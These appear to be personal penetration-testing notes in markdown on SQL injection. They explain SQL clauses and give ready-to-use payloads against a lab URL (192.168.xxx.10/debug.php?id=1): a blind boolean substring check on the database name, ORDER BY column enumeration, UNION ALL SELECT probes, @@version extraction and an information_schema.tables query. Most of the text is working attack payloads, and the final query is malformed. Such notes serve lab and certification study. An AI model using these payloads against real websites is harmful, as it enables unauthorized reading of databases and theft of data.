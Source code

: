 ```sql
-- Display the rows that are common to all SELECT statements
INTERSECT

-- Return the first # of rows matching the query (1st number - how many rows to skip; 2nd - how many rows to return)
LIMIT 2
	-- Returns 1 row, skips the first 2

-- Sort the results based on the values in the number column
	-- Can  be used to find max # of columns by incrementing until an error is thrown (Easily automated w/ Burp's Repeater)
ORDER BY

-- Extract a substring from a string
SUBSTR(1,2,3)
	-- 1. Operated text (ex: db name)
	-- 2. Char to start with
	-- 3. Number of chars to extract
1' AND (ascii(substr((select database()),2,1))) < 115 --+
	'-- Compares ascii value of the 2nd character of the db's name to 115 ('s')
```


### Column Number Enum:
```sql
http://192.168.xxx.10/debug.php?id=1 order by 1
```
If there is at least one column in the query, it's valid and the page will render w/o errors.  
  
  
To determine which columns are displayed on a page and where:  
Ex: Assuming 3 columns total in the db  
```sql
http://192.168.xxx.10/debug.php?id=1 UNION ALL SELECT 1, 2, 3
```

  
\***IF** the results of the page don't display the numbers after SELECT ^, you may need to adjust above to:
```sql
id=0 UNION
```
to prevent the first returned result somewhere in the web site's code from being displayed.  
  
  
Whichever columns are displayed, we can target that column and use it to extract data from the db:  
\***Note** - Following cmds are platform specific  
Ex: Using column 3 for data extraction:  
```sql
UNION ALL SELECT 1, 2, @@version
```
	Shows version of MySQL software  
  
---------- [SEE BELOW FOR MORE BY LANGUAGE](#Language%20Syntax) ----------  
  
```sql
UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.tables
```
